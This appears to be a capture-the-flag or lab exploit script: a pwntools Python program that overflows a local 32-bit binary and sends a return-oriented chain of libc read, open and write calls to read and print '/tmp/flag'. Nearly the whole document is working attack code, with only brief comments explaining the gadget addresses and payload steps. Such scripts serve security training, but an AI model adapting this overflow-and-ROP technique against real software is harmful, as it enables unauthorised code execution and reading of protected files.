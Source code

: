 ```test(a, b, c)```

```python
from pwn import *
io = process('./a32.out')

elf = ELF('./a32.out')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

# libc base address
base_addr = 0xf7c00000 	# varies in different libc and ubuntu version
# PPR and PPPR
PPR = base_addr + 0x3958a
PPPR = base_addr + 0x4cab8
# write the flag to the writable_addr
writable_addr = 0x804c700
# payload
payload = cyclic(76) 
# read the "/tmp/flag" into the writable_addr
# read(0, writable_addr, len("/tmp/flag"))
payload += p32(base_addr + libc.symbols['read'])
payload += p32(PPPR)
payload += p32(0)
payload += p32(writable_addr)
payload += p32(len("/tmp/flag"))
# open the /tmp/flag
# open("/tmp/flag", 0)
payload += p32(base_addr + libc.symbols['open'])
payload += p32(PPR)
payload += p32(writable_addr)
payload += p32(0)
# read the flag
# read(3, writable_addr, 10)
payload += p32(base_addr + libc.symbols['read'])
payload += p32(PPPR)
payload += p32(3)
payload += p32(writable_addr)
payload += p32(10)
# write the flag
# write(1, writable_addr, 10)
payload += p32(base_addr + libc.symbols['write'])
payload += p32(PPPR)
payload += p32(1)
payload += p32(writable_addr)
payload += p32(10)


# gdb.attach(io, "b *(start+163)") # we can raise a debug interface here
io.sendafter(b'Password:', payload)
io.sendline(b'/tmp/flag')
io.interactive()
```
